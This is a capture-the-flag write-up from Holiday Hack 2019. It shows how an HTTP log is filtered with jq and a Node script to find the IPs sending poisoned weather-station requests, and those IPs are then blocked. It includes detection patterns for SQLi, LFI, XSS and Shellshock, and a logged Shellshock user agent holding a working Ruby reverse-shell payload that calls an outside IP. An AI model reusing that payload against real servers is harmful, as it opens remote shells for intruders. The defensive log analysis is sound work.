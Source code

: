```yaml
---
title: Filter out poisoned sources of weather data
tags: 
  - Infosec
  - Web
  - Forensics
categories:
  - Holiday Hack 2019
date: 2020-01-19
---
```


We're given the link to a web interface and a gzipped log file. First, let's get into the web interface.

You might remember that [challenge 10](recover-document.html) gives you a PDF documenting the new sleigh navigation system. If you browse through this PDF you'll find it mentions the default username/password are in the `README.md`.

If we go to the interface `/README.md`, we can download the readme and find the default password:

```
You can login using the default admin pass:

`admin 924158F9522B3744F5FCD4D10FAC4356`

```

Now that we're in the web interface we can look at the API docs:

```
To Update The Measurements For a Specific Global Elf Weather Station:

HTTP POST REQUEST TO http://srf.elfu.org/api/measurements
Content-Type: application/json

{
  "coord": {
    "lon": 19.04,
    "lat": 47.5
  },
  "weather": [
    {
      "id": 701,
      "main": "Mist",
      "description": "mist",
      "icon": "50d"
    }
  ],
  "base": "stations",
  "main": {
    "temp": 3,
    "pressure": 1016,
    "humidity": 74,
    "temp_min": 3,
    "temp_max": 3
  },
  "visibility": 5000,
  "wind": {
    "speed": 1.5
  },
  "clouds": {
    "all": 75
  },
  "dt": 1518174000,
  "sys": {
    "type": 1,
    "id": 5724,
    "message": 0.0038,
    "country": "HU",
    "sunrise": 1518155907,
    "sunset": 1518191898
  },
  "station_id": "abcd1234",
  "name": "Budapest",
  "cod": 200
}

All Station IDS: GET /api/stations
All Stations Weather Data: GET /api/weather?station_id=*
One Stations Weather Data: GET /api/weather?station_id=abcd1234
Multiple Specific Stations Weather Data: GET /api/weather?station_id=abcd1234,abcd1235
```

So now we know the poison requests will be `POST /api/measurements`. Let's start looking through our logs. First, look at the structure for each object:

```
$ jq '.[0]' http.log
{
  "ts": "2019-10-05T06:50:42-0800",
  "uid": "ClRV8h1vYKWXN1G5ke",
  "id.orig_h": "238.27.231.56",
  "id.orig_p": 60677,
  "id.resp_h": "10.20.3.80",
  "id.resp_p": 80,
  "trans_depth": 1,
  "method": "GET",
  "host": "srf.elfu.org",
  "uri": "/14.10/Google/",
  "referrer": "-",
  "version": "1.0",
  "user_agent": "Mozilla/5.0 (Windows; U; Windows NT 5.1; fr; rv:1.9.2b4) Gecko/20091124 Firefox/3.6b4 (.NET CLR 3.5.30729)",
  "origin": "-",
  "request_body_len": 0,
  "response_body_len": 232,
  "status_code": 404,
  "status_msg": "Not Found",
  "info_code": "-",
  "info_msg": "-",
  "tags": "(empty)",
  "username": "-",
  "password": "-",
  "proxied": "-",
  "orig_fuids": "-",
  "orig_filenames": "-",
  "orig_mime_types": "-",
  "resp_fuids": "FUPWLQXTNsTNvf33",
  "resp_filenames": "-",
  "resp_mime_types": "text/html"
}
```

We're told there's probably a bunch of nasty stuff, so we can look for common web attack techniques in the logs. We'll match based on some generic stuff then put all the IPs in a file:

```bash
$ # SQLi
$ jq '. | map(select(.uri | contains("'"'"'"))) | map(."id.orig_h")' http.log > bad_ips
$ jq '. | map(select(.user_agent | contains("'"'"'"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.username | contains("'"'"'"))) | map(."id.orig_h")' http.log >> bad_ips

$ # LFI
$ jq '. | map(select(.uri | contains("../"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.uri | contains("pass"))) | map(."id.orig_h")' http.log >> bad_ips

$ # XSS
$ jq '. | map(select(.uri | contains("<"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.host | contains("<"))) | map(."id.orig_h")' http.log >> bad_ips

$ # Shellshock
$ jq '. | map(select(.uri | contains(":; };"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.user_agent | contains(":; };"))) | map(."id.orig_h")' http.log >> bad_ips

$ # Flatten a bunch of concatenated arrays
$ jq -s '. | flatten' bad_ips > bad_ips_clean
$ jq '. | length' bad_ips_clean
89
```

This targets, in order, LFI, SQL Injection, Shellshock, and XSS.

Now we can try to find other requests that have things in common with these, such as user agents. You can repeat the above script, replacing `."id.orig_h"` with `.user_agent` to find all the useragents that were responsible for a malicious request.

```
$ cat bad_agents
[
  "Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.",
  "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)",
  "Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)",
  [ ... ]
  "() { :; }; /usr/bin/ruby -rsocket -e'f=TCPSocket.open(\"227.110.45.126\",43870).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)'"
]
```

There's a chance some of these are actually normal though, so we'll not use useragents that end up being too common (>= 9 requests). From there, we just need to search for IPs that used any useragent on that list. I used Node for this part:


```js
var fs = require('fs');
var sus_agents = JSON.parse(fs.readFileSync('./bad_agents'));
var all_records = JSON.parse(fs.readFileSync('./http.log'));

var agent_counts = sus_agents.map(x => ({count: all_records.filter(y => y.user_agent == x).length, agent: x}));
console.log("Suspicious agents: " + agent_counts.length);

var bad_agents = agent_counts.filter(x => x.count < 9).map(x => x.agent);
console.log("Probably bad agents: " + bad_agents.length);

var filtered = all_records.filter(x => bad_agents.includes(x.user_agent));
filtered = filtered.filter((x, i) => filtered.indexOf(x) === i);

console.log("Found " + filtered.length + " unique IPs:");
console.log(filtered.map(x => x['id.orig_h']).join(", "));
```

```
$ node pivot.js
Suspicious agents: 89
Probably bad agents: 72
Found 97 unique IPs:
42.103.246.250, 42.103.246.130, 42.103.246.130, 42.103.246.130, ...
```

Now we just need to paste our comma-seperated list into the firewall, hit deny, and we get our token.